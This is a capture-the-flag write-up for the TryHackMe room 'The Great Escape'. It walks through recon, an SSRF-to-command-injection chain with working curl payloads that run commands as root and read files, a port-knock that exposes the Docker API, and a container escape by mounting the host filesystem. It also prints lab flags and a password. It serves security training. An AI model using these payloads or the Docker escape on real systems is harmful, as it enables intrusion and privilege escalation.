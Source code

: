 # TryHackMe: The Great Escape

> Our devs have created an awesome new site. Can you break out of the sandbox?

*[Link](https://tryhackme.com/room/thegreatescape)*

## Recon

```
export IP=10.10.23.83
```

I first ran an NMAP scan and Nikto: see `nmap.log` and `nikto.log`. Running gobuster was not possible, because every page (also non-existent) ones seems to return 200 response codes. The contents of `robots.txt` however, is very interesting:

```
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

This `/exif-util` seems to feature a file upload, and might refer to command line EXIF utilities, like exiftools. This is possible attack surface.

The login page' interaction with the API looks like this:

![](api-login.png)

I tried basic brute-forcing on this, without any luck.

## First Flag

I was stuck for quite a while with my usual recon techniques all being based on non-200 response codes... there might also be some rate limiting going on? Then I tried some common files in `.well-known`. The `security.txt` contained the following:

```
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

I did this HEAD request as requested, using cURL:

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl --head http://10.10.23.83/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 06 Aug 2023 14:06:10 GMT
Connection: keep-alive
flag: THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

## Attacking `/exif-util`

Using browser devtools I extracted the API request happening for the EXIF utility:
```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http:%2F%2F10.10.23.83%2F_nuxt%2Fimg%2Flogo-light.49baa3d.png'
EXIF:
----------------------
[PNG-IHDR] Image Width - 600
[PNG-IHDR] Image Height - 300
[PNG-IHDR] Bits Per Sample - 8
[PNG-IHDR] Color Type - True Color with Alpha
[PNG-IHDR] Compression Type - Deflate
[PNG-IHDR] Filter Method - Adaptive
[PNG-IHDR] Interlace Method - No Interlace
[PNG-sRGB] sRGB Rendering Intent - Perceptual
[PNG-gAMA] Image Gamma - 0.455
[PNG-pHYs] Pixels Per Unit X - 3778
[PNG-pHYs] Pixels Per Unit Y - 3778
[PNG-pHYs] Unit Specifier - Metres
[File Type] Detected File Type Name - PNG
[File Type] Detected File Type Long Name - Portable Network Graphics
[File Type] Detected MIME Type - image/png
[File Type] Expected File Name Extension - png

XMP:
----------------------
```

I was not able to inject any commands at the end of the URL here, despite various attempts and even some automated fuzzing.

There's also a `exif-util.bak.txt` file available, as suggested by the robots file. I saved it in my notes directory. Notice it has a call to `http://api-dev-backup:8080/exif`, a different(?) internal service. I then tried if maybe this service was vulnerable to command injection.

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http://api-dev-backup:8080/exif?url=1;id'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               uid=0(root) gid=0(root) groups=0(root)
```

Woah! That's not just command injection... The app seems to be running as root. I started looking for a flag, but found this instead:

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http://api-dev-backup:8080/exif?url=1;cat%20/root/dev-note.txt'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

The password obviously seemed interesting, but I couldn't successfully log in with it anywhere. The SSH service seems to be [a tarpit](https://github.com/skeeto/endlessh).

We have to URL-encode a command payload so I wrote a utilty to do this in `exploit.py`. I wondered if the `dev-note` was refering to the Git history...

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git log"
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git show a3d30a7d0510dc6565ff9316e3fb84434916dee8:dev-note.txt"
Hey guys,

I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.

Cheers,

Hydra
```

## Root flag

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git show a3d30a7d0510dc6565ff9316e3fb84434916dee8:flag.txt"
You found the root flag, or did you?

THM{0cb4b947043cb5c0486a454b75a10876}
```

## Knocking the docker TCP port open

As described in the (old) `dev-note.txt`, I tried to get the ports open by "knocking" these ports. I did this using the script in `knock.sh`. A new NMAP scan (`nmap-after-knock.log`) indeed revealed an open Docker port now: port 2375.


## The Great Escape

It seems like I have been tricked:

> You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

However, now that we have an open Docker port, I can run a new Docker container and mount the real file system. I was able to read the flag this way:

![](https://imgur.com/auDfNkx.png)
